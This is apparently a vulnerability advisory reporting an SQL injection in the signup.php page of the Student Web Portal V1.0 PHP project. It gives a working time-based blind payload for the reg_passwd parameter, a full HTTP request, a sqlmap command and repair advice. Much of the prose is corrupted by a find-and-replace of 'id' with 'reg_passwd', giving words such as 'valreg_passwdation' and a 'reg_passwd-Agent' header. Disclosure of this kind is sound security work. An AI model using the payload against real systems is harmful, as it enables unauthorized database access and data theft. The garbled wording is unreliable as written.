

# Code-projects STUDENT WEB PORTAL V1.0 signup.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ <font style="color:rgb(51, 65, 85);">STUDENT WEB PORTAL</font>

## Vendor Homepage
+ [https://code-projects.org/student-web-portal-in-php-with-source-code/](https://code-projects.org/student-web-portal-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ Choco094late

## Vulnerable File
+ signup.php

## VERSION(S)
+ V1.0

## Software Link
+ [https://download-media.code-projects.org/2019/12/STUDENT_WEB_PORTAL_IN_PHP_WITH_SOURCE_CODE.zip](https://download-media.code-projects.org/2019/12/STUDENT_WEB_PORTAL_IN_PHP_WITH_SOURCE_CODE.zip)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was reg_passwdentified within the "signup.php" file of the "STUDENT WEB PORTAL" project. The root cause lies in the fact that attackers can inject malicious code via the parameter "reg_passwd". This input is then directly utilized in SQL queries without undergoing proper sanitization or valreg_passwdation processes. As a result, attackers are able to fabricate input values, manipulate SQL queries, and execute unauthorized operations.

## Impact
+ Exploiting this SQL injection vulnerability allows attackers to gain unauthorized access to the database, cause sensitive data leakage, tamper with data, gain complete control over the system, and even disrupt services. This poses a severe threat to both the security of the system and the continuity of business operations.

# DESCRIPTION
+ During the security assessment of "STUDENT WEB PORTAL", I detected a critical SQL injection vulnerability in the "signup.php" file. This vulnerability is attributed to the insufficient valreg_passwdation of reg_passwd input for the "reg_passwd" parameter. This inadequacy enables attackers to inject malicious SQL queries. Consequently, attackers can access the database without proper authorization, modify or delete data, and obtain sensitive information. Immediate corrective actions are essential to safeguard system security and uphold data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability location:
+ "reg_passwd" parameter

## Payload:
```makefile
Parameter: reg_passwd (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: check-type=student&reg_name=aaa&reg_uname=maxaaa&reg_email=1@qq.com&reg_passwd=1' AND (SELECT 3337 FROM (SELECT(SLEEP(5)))wCQl) AND 'qzYS'='qzYS&c_password=1
```

## Vulnerability Request Packet
```makefile
POST /student_portal/signup.php HTTP/1.1
Host: 192.168.2.103:8888
Content-Length: 95
Cache-Control: max-age=0
Origin: http://192.168.2.103:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
reg_passwd-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.103:8888/student_portal/index.php?error=reg_passwdname%20or%20Password%20is%20invalid
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: dp_url=https%3A%2F%2F2.bp.blogspot.com%2F-oPwiFzGzO_o%2FV8lWeLItEiI%2FAAAAAAAADb4%2FtFg849jD-T0mCsPYvr8KrEEmTu3YZLMJACLcB%2Fs1600%2Fbest-whatsapp-dp-quotes.jpg; reg_passwd_name=Asad; PHPSESSID=u3a91imuf1ddimjo8uv16656s0
Connection: keep-alive

check-type=student&reg_name=aaa&reg_uname=maxaaa&reg_email=1%40qq.com&reg_passwd=1&c_password=1
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -r vuln.txt --dbs
```

<!-- 这是一张图片，ocr 内容为： -->



# Suggested repair
1. **Employ prepared statements and parameter binding:**  
Prepared statements serve as an effective safeguard against SQL injection as they segregate SQL code from reg_passwd input data. When using prepared statements, reg_passwd - entered values are treated as mere data and will not be misconstrued as SQL code.
2. **Conduct input valreg_passwdation and filtering:**  
Rigorously valreg_passwdate and filter reg_passwd input data to guarantee that it conforms to the expected format. This helps in blocking malicious input.
3. **Minimize database reg_passwd permissions:**  
Ensure that the account used to connect to the database has only the minimum required permissions. Avoreg_passwd using accounts with elevated privileges (such as 'root' or 'admin') for day - to - day operations.

